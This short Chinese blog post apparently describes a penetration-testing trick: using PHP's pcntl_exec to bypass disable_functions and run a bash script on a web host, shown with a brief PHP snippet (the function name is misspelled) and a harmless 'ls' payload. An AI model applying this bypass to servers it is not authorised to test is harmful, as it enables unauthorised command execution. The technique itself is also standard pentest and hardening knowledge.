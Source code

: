 title: 渗透技巧：利用pcntl_exec突破disable_functions
categories: [网络安全]
tags: []
date: 2013-04-19 08:30:15
---
1、说明
pcntl是linux下的一个扩展，可以支持php的多线程操作。
pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP 4 >= 4.2.0, PHP 5
2、利用
在做渗透的时候被disable_functions卡住不能执行命令是家常便饭，今天在一国外虚拟主机上又被卡了，但我在执行phpinfo();的时候眼前闪过–enable-pcntl。当时我就偷笑了，没啥好说的，我一直强调渗透要细心做人做事也一样。
#exec.php
<?php cntl_exec(“/bin/bash”, array(“/tmp/b4dboy.sh”));?>
#/tmp/b4dboy.sh
#!/bin/bash
ls -l /
原文：http://www.secoff.net/archives/116.html